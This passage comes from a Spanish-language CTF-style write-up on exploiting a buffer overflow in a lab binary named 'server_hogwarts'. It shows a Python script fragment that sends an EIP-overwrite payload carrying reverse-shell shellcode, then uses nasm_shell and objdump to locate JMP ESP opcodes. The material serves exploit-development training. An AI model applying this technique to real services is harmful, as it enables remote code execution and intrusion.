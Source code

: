 ```python
...
...
...

after_eip = shellcode

payload = before_eip + eip + after_eip

# Creando conexión y enviando shellcode
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip_addr, port))
s.send(payload)
s.close()
```
Así va quedando nuestro script, pero aún faltan cosas por completar en los siguientes pasos.

<br>

<h3 id="OpCode">Octavo Paso: Busqueda de OpCode para Aplicar un Salto (JMP) al ESP</h3>

¿Qué es un **OpCode**?

| **Operation Code** |
|:-----------:|
| *El opcode (abreviatura de "operation code" o código de operación) es una parte fundamental de una instrucción en lenguaje máquina. Es el segmento de la instrucción que le dice a la CPU qué operación debe realizar.* |

<br>

Entonces, necesitamos buscar un **OpCode** dentro del binario que nos ayude a escribir nuestro **Shellcode** para que se pueda ejecutar la **Reverse Shell**.

Para esto, usamos el **EIP** para que apunte a una dirección de memoria donde se aplique un **OpCode**, para que realice un salto (**JMP**) al **ESP**, que es donde queremos que se aplique el **Shellcode**. Esto se le conoce como **JMP ESP**

Una herramienta que podemos ocupar es **nasm_shell** de **Metasploit Framework**.

Podemos invocarla usando su ruta completa `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` y le indicamos que busque él `JMP ESP`:
```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp ESP
00000000  FFE4              jmp esp
```
El **OpCode** se representa así: `\xFF\xE4`.

Ahora, podemos buscarlo dentro del binario con la herramienta **objdump** y con **grep** buscamos el **OpCode**:
```bash
objdump -D server_hogwarts| grep "ff e4"
 8049d55:       ff e4                   jmp    *%esp
 80b322c:       81 73 f6 ff e4 73 f6    xorl   $0xf673e4ff,-0xa(%ebx)
 80b3253:       ff 91 73 f6 ff e4       call   *-0x1b00098d(%ecx)
 80b500f:       ff e4                   jmp    *%esp
 80b51ef:       ff e4                   jmp    *%esp
 80b546f:       ff e4                   jmp    *%esp
 80d0717:       ff e4                   jmp    *%esp
```
Se puede ocupar cualquiera que sea **JMP ESP**.
